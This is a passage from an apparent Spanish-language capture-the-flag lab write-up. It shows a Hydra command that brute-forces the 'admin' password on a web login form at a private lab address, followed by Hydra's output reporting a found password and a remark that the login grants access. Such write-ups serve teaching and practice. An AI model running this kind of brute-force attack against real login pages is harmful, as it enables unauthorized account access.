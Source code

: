 Probémoslo:
```bash
hydra -l 'admin' -P ./MD5wordlist.txt 192.168.100.110 http-form-post '/index.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-16 15:18:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22 login tries (l:1/p:22), ~2 tries per task
[DATA] attacking http-post-form://192.168.100.110:80/index.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos
[80][http-post-form] host: 192.168.100.110   login: admin   password: 5a06153b12b2ec6210a8bb66f4e78c4*
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-16 15:18:44
```
Lo tenemos.

Y si lo probamos en el login, ganaremos acceso:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura8.png">
</p>
